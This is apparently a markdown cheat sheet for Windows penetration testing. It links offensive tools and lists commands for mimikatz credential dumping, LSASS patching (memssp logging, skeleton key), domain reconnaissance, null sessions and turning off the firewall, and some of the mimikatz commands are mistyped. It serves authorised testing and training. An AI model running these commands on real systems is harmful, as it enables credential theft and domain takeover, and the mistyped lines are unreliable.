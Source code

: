 # WINDOWS

* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) - collection of powershell modules for pentesting
* [Nishang](https://github.com/samratashok/nishang) - Powershell framework and collection of scripts and payloads for pentesting
* [USBDumper](http://www.secuobs.com/USBDumper.rar) - silently copies contents of every connected USB device to the system
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - a swiss army knife for pentesting Windows/Active Directory environments

Privilege Escalation
--------------------

* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [AccessEnum](https://technet.microsoft.com/en-us/sysinternals/bb897332.aspx) - tool for analyzing files/dirs user rights
* [Autoruns](http://technet.microsoft.com/en-us/sysinternals/bb963902.aspx ) - tool for managing autorun apps
* [AccessChk](https://technet.microsoft.com/en-us/sysinternals/bb664922.aspx)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) - clearinghouse of common Windows privesc vectors that rely on misconfigurations
* `whoami /groups` shows info about which groups you are in, which integrity level your process is run at

Post-Exploitation
-----------------

* [Post-Exploitation with "Incognito"](http://hardsec.net/post-exploitation-with-incognito/?lang=en)
* [PowerShellEmpire](https://github.com/powershellempire/empire) - post-exploitation agent  

If have DC access, use CrackMapExe module to extract ntds.dit (contains AD data) and other modules.  

* [mimikatz](https://github.com/gentilkiwi/mimikatz) - extract plaintext passwords, hashes, PIN codes, kerberos tickets from memory; pass-the-hash. Useful commands:  
`!lsadum::cache` - dump cached credentials  
`!lsadump:sam` - dump local user account password hashes  
`misc::cmd` - re-enable command shell, if disabled in registry  
`!misc::memssp` - patch LSASS to log credentials after authentication; see: c:\windows\system32\mimilsa.log  
`misc::skeleton` - (for DCs only) patch LSASS to make "mimikatz" password work for all users on the domain  
`process::suspend [pid]` - suspend a process  
`process::resume [pid]` - resume execution of a progress  

`net view /DOMAIN` - find out which domain I trust  
`net view /DOMAIN:[domain]  
net group "domain computers" /DOMAIN` - see which hosts are in a domain  
`nltest /dclist:[domain]` - see which hosts are DCs for a domain  
`nslookup [name]  
ping -n 1 -4 [name]` - map a NetBIOS name to an IPv4 addresses  
`nltest /domain_trusts  
nltest /server:[address] /domain_trusts` - map domain trusts  
`net view \\[name]` - list shares on a host  

Null Session
------------

Open ports? UDP 137 & 138, TCP 139  
`net use \\host\IPC$ "" "/user:"`

Other
-----

Turn off firewall: `NetSh Advfirewall set allprofiles state off`  
